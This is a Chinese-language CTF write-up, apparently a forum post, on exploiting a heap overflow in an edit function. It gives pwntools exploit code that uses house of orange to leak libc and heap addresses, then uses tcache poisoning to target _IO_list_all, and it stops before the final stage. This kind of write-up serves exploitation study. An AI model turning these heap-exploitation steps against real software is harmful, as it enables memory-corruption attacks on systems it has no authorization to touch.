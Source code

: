 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-09af02a86966f986723d8f887f88b731dd2f7856.png)

edit函数，有很大的漏洞，可以自己输入想要edit的长度，checksanbox后面再做分析

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-6d2fda43f2235ce274837e5c59716811d98f10d4.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-2f083b04d0b797484c4e2e173c83bcf417bc9384.png)

house of orange泄露libcbase与heapbase
----------------------------------

```python
add(0x8)
edit(0, 0x20, b"a" * 0x18 + p64(0xD91))
add(0x1000)
add(0x400)
edit(0, 0x20, b"a" * 0x18 + b"a" * 8)
show(0)
p.recvuntil("a" * 0x20)
libc.address = u64(p.recv(6).ljust(8, b"\x00")) - 0x3EBCA0 - 0x600
print(f"libc: {hex(libc.address)}")
edit(0, 0x30, b"a" * 0x30)
show(0)
p.recvuntil("a" * 0x30)
heap_addr = u64(p.recv(6).ljust(8, b"\x00")) - 0x270
print(f"heap: {hex(heap_addr)}")
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7e546cf6c7da9a578fe7521680079c82e8183e7f.png)

利用house of orange+让top chunk进入tcache bin进而tcache poison
-------------------------------------------------------

```python
add(0x310)
add(0x5F0 + 0x30)
add(0xF60)
edit(5, 0xF70, b"a" * 0xF60 + p64(0) + p64(0x81))
# dbg()
add(0x100)
edit(
    5,
    0xF78,
    b"a" * 0xF60 + p64(0) + p64(0x81) + p64(libc.sym['_IO_list_all']),
)
add(0x58)
add(0x58)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-f431c4cc5dada8ad09f5d97ac06a9924dfd8aa2d.png)

这里的0x555555580010刚好是扩展的top\_chunk的位置，通过edit这个地方，那么就可以伪造一个新的top chunk的大小，让这个大小可以进入tcache

